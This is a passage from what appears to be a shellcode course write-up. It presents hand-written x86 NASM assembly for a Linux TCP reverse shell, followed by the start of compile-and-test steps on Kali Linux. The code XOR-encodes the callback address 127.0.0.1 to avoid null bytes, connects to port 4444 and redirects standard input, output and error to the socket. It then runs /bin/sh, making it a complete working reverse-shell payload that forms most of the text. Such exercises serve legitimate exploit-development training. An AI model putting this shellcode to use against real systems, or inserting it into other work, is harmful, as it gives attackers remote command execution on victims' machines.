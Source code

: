 ```nasm
    mov ebx, eax
    
    ; const char* ip = "127.0.0.1";
    mov edi, 0xffffffff ; 255.255.255.255
    mov ecx, 0xfeffff80 ; 128.255.255.254
    xor ecx, edi        ; 0x0100007f = 127.0.0.1

    ; struct sockaddr_in addr;
    push ecx            ; inet_aton("127.0.0.1", &addr.sin_addr);
    push word 0x5c11    ; addr.sin_port = htons(4444);
    push word 0x2       ; addr.sin_family = 2 = AF_INET;
    mov ecx, esp        ; pointer to struct sockaddr_in addr;

    ; connect(sockfd, (struct sockaddr *)&addr, sizeof(addr));
    push 0x10           ; 16 = sizeof(addr)
    push ecx            ; (struct sockaddr *)&addr
    push ebx            ; sockfd
    mov ecx, esp        ; *args
    mov al, 0x66        ; socketcall   
    int 0x80            ; returns 0 in eax

    ; int dup2(int oldfd, int newfd);
    mov ecx, edx        ; 0 = STDOUT
    mov al, 0x3f        ; dup2
    int 0x80
    inc cl              ; 1 = STDIN
    mov al, 0x3f        ; dup2
    int 0x80
    inc cl              ; 2 = STDERROR
    mov al, 0x3f        ; dup2
    int 0x80

    ; execve("/bin/sh", NULL, NULL);
    push edx            ; delimiting NULL for pathname; EDX is NULL for envp[]
    push 0x68732f2f     ; //sh
    push 0x6e69622f     ; /bin
    mov ecx, edx        ; NULL for argv[]
    mov ebx, esp        ; pointer to pathname
    mov al, 0xb         ; execve
    int 0x80
```

### Compile & Test
#### Testing Assembly
The TCP reverse shell assembly code can be compiled and tested in the following manner. The commands used were run on 64-bit Kali Linux. To start, the code should be assembled with `/usr/bin/nasm` as shown below. As the program is written in x86 assembly, the `elf32` file type is specified using the `-f` flag.

```shell
root@kali:~/workspace/SLAE/# nasm -f elf32 shell_reverse_tcp.nasm -o shell_reverse_tcp.o
```
